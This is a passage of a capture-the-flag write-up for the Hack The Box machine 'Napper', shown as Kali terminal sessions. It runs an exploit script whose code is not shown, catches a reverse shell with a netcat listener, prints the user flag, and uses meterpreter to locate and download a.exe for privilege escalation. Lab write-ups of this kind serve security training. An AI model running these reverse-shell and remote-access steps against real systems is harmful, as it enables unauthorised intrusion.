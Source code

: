 Run the exploit:
```bash
┌──(kali㉿kali)-[~]
└─$ python3 exploit.py
/usr/lib/python3/dist-packages/urllib3/connectionpool.py:1062: InsecureRequestWarning: Unverified HTTPS request is being made to host 'napper.htb'. Adding certificate verification is strongly advised. See: <https://urllib3.readthedocs.io/en/1.26.x/advanced-usage.html#ssl-warnings>
  warnings.warn(
```

Shell as ruben.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001 
listening on [any] 9001 ...
connect to [10.10.14.84] from (UNKNOWN) [10.10.11.240] 59010
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
Try the new cross-platform PowerShell <https://aka.ms/pscore6>
PS C:\\Windows\\system32> whoami
napper\\ruben
```

User.txt: `4cfec8bc7481399486c096683e74fa57`
```bash
PS C:\\Users\\Ruben\\Desktop> type user.txt
4cfec8bc7481399486c096683e74fa57
```


## Privilege Escalation
We find the following open ports (a.exe?)
![Pasted image 20240714174831.png](/images/Pasted image 20240714174831.png){: .normal }


Locate and download the a.exe file
```bash
meterpreter > search -f a.exe
Found 1 result...
=================

Path                                                          Size (bytes)  Modified (UTC)
----                                                          ------------  --------------
c:\\Temp\\www\\internal\\content\\posts\\internal-laps-alpha\\a.exe  12697088      2023-06-09 03:20:07 -0400

meterpreter > download C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe
[*] Downloading: C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 1.00 MiB of 12.11 MiB (8.26%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 2.00 MiB of 12.11 MiB (16.52%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 3.00 MiB of 12.11 MiB (24.78%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 4.00 MiB of 12.11 MiB (33.03%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 5.00 MiB of 12.11 MiB (41.29%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 6.00 MiB of 12.11 MiB (49.55%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 7.00 MiB of 12.11 MiB (57.81%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 8.00 MiB of 12.11 MiB (66.07%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
[*] Downloaded 9.00 MiB of 12.11 MiB (74.33%): C:/Temp/www/internal/content/posts/internal-laps-alpha/a.exe -> /home/kali/a.exe
```